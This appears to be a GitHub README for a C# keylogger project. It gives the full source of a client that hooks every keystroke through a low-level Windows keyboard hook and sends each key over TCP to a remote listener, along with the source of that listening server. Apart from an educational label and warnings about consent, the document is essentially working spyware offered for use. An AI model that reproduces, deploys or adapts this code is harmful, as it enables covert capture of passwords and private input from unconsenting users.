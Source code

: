 # 🥷🏻 Keylogger in Csharp
This project consists of two parts: KeyloggerServer and KeyloggerClient. The KeyloggerServer listens for key logs sent from the KeyloggerClient and prints them to the console. The KeyloggerClient captures keystrokes on the host machine and sends them to the server.

### Introduction
The KeyloggerServer and KeyloggerClient projects demonstrate a simple implementation of a keylogger and a corresponding server to capture keystrokes remotely. This setup is intended for educational purposes to understand the mechanics of keylogging and network communication in C#.

## ⚠️ Warning
Unauthorized use of keyloggers to capture keystrokes from systems without consent is illegal and unethical. This project should only be used in environments where you have explicit permission to do so, such as your own devices for educational or testing purposes.

## Project Structure
```
KeyloggerProject
│
├─── KeyloggerServer
│    ├── Program.cs
│    ├── .vscode
│    │   ├── launch.json
│    │   ├── tasks.json
│    ├── KeyloggerServer.csproj
│
└─── KeyloggerClient
     ├── Program.cs
     ├── Keylogger.cs
     ├── .vscode
     │   ├── launch.json
     │   ├── tasks.json
     ├── KeyloggerClient.csproj
```

## Getting Started
### Prerequisites
- .NET SDK (version 6.0 or higher)
- Visual Studio Code with the C# extension installed

## Technical Details
### KeyloggerServer
The server is a simple TCP listener that waits for incoming connections on port 5000. When a connection is received, it reads the data, interprets it as a keystroke, and prints it to the console.

### Program.cs:
```csharp
using System;
using System.Net;
using System.Net.Sockets;
using System.Text;

class Server
{
    static void Main()
    {
        TcpListener server = new TcpListener(IPAddress.Any, 5000);
        server.Start();
        Console.WriteLine("Server started...");

        while (true)
        {
            TcpClient client = server.AcceptTcpClient();
            NetworkStream stream = client.GetStream();

            byte[] buffer = new byte[1024];
            int bytesRead = stream.Read(buffer, 0, buffer.Length);
            string message = Encoding.ASCII.GetString(buffer, 0, bytesRead);
            Console.WriteLine("Received: " + message);

            client.Close();
        }
    }
}
```

### KeyloggerClient
The client sets a low-level keyboard hook to capture all keystrokes. Captured keystrokes are sent to the server over a TCP connection.

### Program.cs:

```csharp
using System;
using System.Windows.Forms;

namespace KeyloggerClient
{
    static class Program
    {
        [STAThread]
        static void Main()
        {
            Application.EnableVisualStyles();
            Application.SetCompatibleTextRenderingDefault(false);
            Keylogger.Start();
            Application.Run();
        }
    }
}
```

### Keylogger.cs:

```csharp
using System;
using System.Diagnostics;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.Windows.Forms;

namespace KeyloggerClient
{
    static class Keylogger
    {
        private const int WH_KEYBOARD_LL = 13;
        private const int WM_KEYDOWN = 0x0100;
        private static LowLevelKeyboardProc _proc = HookCallback;
        private static IntPtr _hookID = IntPtr.Zero;

        public static void Start()
        {
            _hookID = SetHook(_proc);
            Application.ApplicationExit += (sender, e) => UnhookWindowsHookEx(_hookID);
        }

        private static IntPtr SetHook(LowLevelKeyboardProc proc)
        {
            using (Process curProcess = Process.GetCurrentProcess())
            using (ProcessModule curModule = curProcess.MainModule)
            {
                return SetWindowsHookEx(WH_KEYBOARD_LL, proc, GetModuleHandle(curModule.ModuleName), 0);
            }
        }

        private delegate IntPtr LowLevelKeyboardProc(int nCode, IntPtr wParam, IntPtr lParam);

        private static IntPtr HookCallback(int nCode, IntPtr wParam, IntPtr lParam)
        {
            if (nCode >= 0 && wParam == (IntPtr)WM_KEYDOWN)
            {
                int vkCode = Marshal.ReadInt32(lParam);
                string key = ((Keys)vkCode).ToString();
                SendKeyToServer(key);
            }
            return CallNextHookEx(_hookID, nCode, wParam, lParam);
        }

        private static void SendKeyToServer(string key)
        {
            try
            {
                using (TcpClient client = new TcpClient("server-ip-address", 5000)) // Use the server's IP address
                using (NetworkStream stream = client.GetStream())
                {
                    byte[] data = System.Text.Encoding.ASCII.GetBytes(key);
                    stream.Write(data, 0, data.Length);
                }
            }
            catch (Exception ex)
            {
                Console.WriteLine("Exception: " + ex.Message);
            }
        }

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        private static extern bool UnhookWindowsHookEx(IntPtr hhk);

        [DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr CallNextHookEx(IntPtr hhk, int nCode, IntPtr wParam, IntPtr lParam);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        private static extern IntPtr GetModuleHandle(string lpModuleName);
    }
}
```

### Security Considerations
- Ethical Use: Ensure you have explicit permission to use keylogging software on any device. Unauthorized use is illegal and unethical.
- Data Privacy: Keylogging software can capture sensitive information. Handle all captured data securely and ensure it is protected from unauthorized access.
- Network Security: Use secure communication channels if deploying over the internet to avoid interception of keystrokes.
